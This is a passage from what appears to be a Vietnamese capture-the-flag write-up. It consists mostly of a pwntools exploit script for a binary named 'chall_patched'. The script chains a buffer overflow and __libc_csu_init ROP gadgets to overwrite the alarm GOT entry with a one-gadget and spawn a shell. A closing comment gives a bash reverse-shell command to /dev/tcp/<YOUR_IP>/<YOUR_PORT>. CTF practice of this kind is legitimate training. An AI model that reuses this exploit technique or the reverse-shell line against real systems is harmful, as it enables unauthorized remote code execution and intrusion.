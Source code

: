 - bây giờ cuối cùng ta sẽ setup cho **og** và call đến alarm@got , chú ý là cần thêm **address rbp-0x48 is writable** nên ta setup nó là **bss**

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
#gdb.attach(p,gdbscript='''
 #          b*0000000000401238
 #          ''')

og = 0xebd38

gadget = 0x40117C #  add dword ptr [rbp - 0x3d], ebx ; nop ; ret

rbx = (og - libc.sym.alarm)
"""
0x00000000004012a0 <+64>:    mov    rdx,r14
0x00000000004012a3 <+67>:    mov    rsi,r13
0x00000000004012a6 <+70>:    mov    edi,r12d
0x00000000004012a9 <+73>:    call   QWORD PTR [r15+rbx*8]
0x00000000004012ad <+77>:    add    rbx,0x1
0x00000000004012b1 <+81>:    cmp    rbp,rbx
0x00000000004012b4 <+84>:    jne    0x4012a0 <__libc_csu_init+64>
0x00000000004012b6 <+86>:    add    rsp,0x8
0x00000000004012ba <+90>:    pop    rbx
0x00000000004012bb <+91>:    pop    rbp
0x00000000004012bc <+92>:    pop    r12
0x00000000004012be <+94>:    pop    r13
0x00000000004012c0 <+96>:    pop    r14
0x00000000004012c2 <+98>:    pop    r15
0x00000000004012c4 <+100>:   ret
"""
rop_chain_pop = 0x00000000004012ba
rop_chain_mov = 0x00000000004012a0

payload = b'a'*120
# control rbp and rbx to add got -> execve
payload += p64(rop_chain_pop) + p64(rbx) + p64(exe.got.alarm+0x3d) + p64(0)*4 + p64(gadget) + p64(exe.sym.vuln)

p.sendline(payload)


payload2 =  b'a'*120 + p64(rop_chain_pop) + p64(0) + p64(0x405000-0x200) + p64(0)*3 + p64(exe.got.alarm) + p64(rop_chain_mov)

input()
p.sendline(payload2)
# after getting shell on remote server run the following
# bash -c 'sh -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1'
p.interactive()
```
